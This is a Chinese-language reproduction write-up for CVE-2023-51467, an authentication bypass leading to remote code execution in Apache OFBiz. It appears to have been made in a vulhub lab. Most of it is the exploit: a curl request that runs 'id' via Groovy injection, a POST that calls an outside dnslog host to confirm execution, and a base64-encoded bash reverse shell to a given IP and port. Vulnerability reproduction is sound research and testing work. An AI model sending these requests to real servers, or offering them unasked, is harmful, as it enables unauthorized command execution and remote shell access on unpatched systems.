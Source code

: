 # OFBiz RCE漏洞复现（CVE-2023-51467）

## 漏洞名称
Apache OFBiz 鉴权绕过导致命令执行

## 漏洞描述
Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。
这个漏洞的原因是对于CVE-2023-49070的不完全修复。在Apache OFBiz 18.12.10版本中，官方移除了可能导致RCE漏洞的XMLRPC组件，但没有修复权限绕过问题。来自长亭科技的安全研究员枇杷哥利用这一点找到了另一个可以导致RCE的方法：Groovy表达式注入。

## 影响版本
Apache OFBiz < 18.12.11

## 漏洞复现
使用vulhub的环境复现
访问登录界面：https://your-ip:8443/accounting/control/main

## exp
直接发送如下请求即可使用Groovy脚本执行id命令（有回显）：

```
curl 'https://192.168.224.1:8443/webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7'   -H 'Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'   -H 'Cache-Control: max-age=0'   -H 'Connection: keep-alive'   -H 'Content-Type: application/x-www-form-urlencoded'   -H 'Cookie: ajs_anonymous_id=185ef744-941d-48fe-ab1c-9893bb360474; OFBiz.Visitor=10000; __test=1; RememberMe=3124^1#-5727936798284578169; JSESSIONID=FE9E3905AD4EBACC2401C73D4CD71105'   -H 'Origin: https://192.168.224.1:8443'   -H 'Referer: https://192.168.224.1:8443/webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y'   -H 'Sec-Fetch-Dest: document'   -H 'Sec-Fetch-Mode: navigate'   -H 'Sec-Fetch-Site: none'   -H 'Upgrade-Insecure-Requests: 1'   -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0'   -H 'sec-ch-ua: "Not)A;Brand";v="99", "Microsoft Edge";v="127", "Chromium";v="127"'   -H 'sec-ch-ua-mobile: ?0'   -H 'sec-ch-ua-platform: "Windows"'   -H 'sec-fetch-user: ?1'   --data-raw 'groovyProgram=throw+new+Exception%28%27id%27.execute%28%29.text%29%3B'   --insecure
```

dnslog验证
````
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 48

groovyProgram='curl+8pjgnx.dnslog.cn'.execute();
```

反弹shell
```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

groovyProgram='bash+-c+{echo,YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xOTIuMTY4LjE3MS4xLzQ0MyAwPiYx}|{base64,-d}|{bash,-i}'.execute();
```
